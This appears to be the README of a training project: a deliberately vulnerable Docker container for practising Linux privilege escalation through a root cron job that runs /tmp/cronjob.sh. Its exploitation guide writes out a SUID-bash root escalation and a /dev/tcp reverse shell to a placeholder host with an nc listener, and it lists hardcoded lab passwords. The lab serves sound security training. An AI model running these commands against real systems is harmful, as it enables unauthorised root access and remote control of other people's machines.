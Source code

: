 
[Lab Screenshot](img.png)

# 🔥 Privilege Escalation Lab - Docker Edition

![Docker](https://img.shields.io/badge/Docker-Containerized-blue)
![Security](https://img.shields.io/badge/Category-Security%20Lab-red)
![License](https://img.shields.io/badge/License-MIT-green)

A deliberately vulnerable Docker environment to practice Linux privilege escalation techniques.

## 🚀 Quick Start

```bash
# Build and run the lab
docker build -t priv_esc_lab .
docker run -d -p 2222:22 -p 5000:5000 --name esc_lab priv_esc_lab
```






The full Answer ⬇️







## 🎯 Lab Features

- 🐍 Flask web app running as user `jerry`
- 🔑 SSH access with pre-configured keys
- ⏲️ Vulnerability: Root-owned script executing `/tmp/cronjob.sh` every 30s
- 🕵️ Stealthy auto-deletion of exploit artifacts

## 💣 Exploitation Guide

### Method 1: SUID Bit Escalation

```bash
echo '#!/bin/bash' > /tmp/cronjob.sh
echo 'chmod +s /bin/bash' >> /tmp/cronjob.sh
chmod +x /tmp/cronjob.sh
# Wait 30 seconds...
/bin/bash -p  # Boom! Root shell
```

### Method 2: Reverse Shell

```bash
echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' > /tmp/cronjob.sh
# On your machine:
nc -lvnp 4444
```

## 🔧 Technical Details

| Component       | Configuration                          |
|-----------------|----------------------------------------|
| SSH Port        | 2222 (Key-based auth only)             |
| Web App Port    | 5000                                   |
| Vulnerable User |  `jerry` (Password: `ynm777!2`)        |
| Root Password   | `zm6Y5413sfFa`                         |

## 📝 Notes
- **Legal Use Only**: For educational purposes
- **Warning**: Never expose this container to untrusted networks!

## 📜 License
MIT © Amir niko
```

